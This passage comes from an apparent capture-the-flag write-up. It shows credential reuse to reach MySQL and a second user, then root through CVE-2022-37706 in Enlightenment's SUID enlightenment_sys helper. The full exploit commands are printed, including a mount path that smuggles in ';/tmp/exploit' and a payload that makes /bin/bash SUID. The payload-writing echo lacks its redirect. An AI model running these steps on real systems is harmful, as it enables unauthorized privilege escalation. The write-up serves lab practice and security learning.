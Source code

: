 Using the password previously found we can log into mysql
```bash
mysql -udolibarr -p <previously_founded_passwd>
```
After searching for a while I was only able to find 2 encrypted passwords with bcript format. I wasn't able to crack none of those using `jhontheripper` with the `rockyou.txt` wordlist. So maybe the DB is a waste of time...

Let's try to log into the other user `larissa` with the same password we used to log into mysql... Success!!!
`su larissa`
Now we can retrieve the user flag

![Larissa passwd](imgs/larissa-passwd.png)


## Escalating privilges
Once the user flag was compromised we moved into compromising the system/ root user. After running `find / -perm -4000 2>/dev/null` to see which programs we can run with SUID we found out the following ones
```
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_system
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
```
Doing a researched I found out CVE-2022-37706 and this amazing [GitHub repo](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) from @MaherAzzouzi where it explains the vulnerability itself.
He also added an [exploit.sh](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh) in case you wanna use that one. In my case I used a slightly different version and ran the following commands

```bash
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
# now I write the payload into /tmp/explot
echo "echo 'pwned!'; whoami; chmod u+s /bin/bash"
chmod a+x /tmp/exploit
# now let's execute the binary with SUID permission
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
As you can see on the image below, the command throws the error "can't find in /etc/fstab" but by that time the payload already did the trick as you can see. Now we just run `bash -p` and sice we now have SUID permission we've effecitvely compromised the system.

![alt text](imgs/pwned.png)
